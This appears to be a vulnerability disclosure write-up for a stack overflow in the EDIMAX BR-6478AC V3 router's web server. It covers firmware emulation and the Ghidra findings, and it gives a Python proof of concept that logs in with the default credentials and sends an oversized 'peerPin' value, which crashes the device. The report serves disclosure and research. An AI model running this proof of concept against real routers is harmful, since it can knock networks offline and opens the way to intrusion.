 # EDIMAX RCE
**description**: 
a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0044a70c function and peerPin in /bin/boa


## Firmware
**brand**:edimax 

**product**:AC1200 Wave 2 Dual-Band Gigabit Router 

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 
![alt text](img/login.png)

using ghidra we can know the action is formWsc
![alt text](img/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/wlwps.htm:
![alt text](img/url.png)


## analyze
Using ghidra we can know that the post parameter "peerPin" will be sprintf as the second input parameter and result the stack overflow
![alt text](img/code_line2.png)
The details of the function as follows:

**addr**:0044afd0
**function**: FUN_0044a70c
**parameter**:peerPin


# poc
the poc code as follow,
```
import requests

data={
	'username':'admin',
	'password':1234
}

url='http://192.168.2.1/boafrm/formWsc'
url_login='http://192.168.2.1/boafrm/formLoginSetup'
url_page='http://192.168.2.1/wlwps.htm'

res=requests.post(url=url_login,data=data)
print(res.text)
cookies = res.cookies
print(cookies)
res2=requests.get(url=url_page,cookies=cookies)
print(res2)

data2={
	'submit-url':'%2Fwlwps.htm',
	'save_apply':'Save+%26+Apply',
	'resetUnCfg':'0',
	'targetAPMac':'',
	'targetAPSsid':'',
	'configVxd':'off',
	'resetRptUnCfg':'0',
	'peerRptPin':'',
	'setPIN':'123',
	'peerPin':'8'*400

}

res3=requests.post(url=url,cookies=cookies,data=data2)
print(res3.text)

```
the result of POC is as follows,can find the segmentation fault
![alt text](img/stack_overflow.png)
![](img/after_attack.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3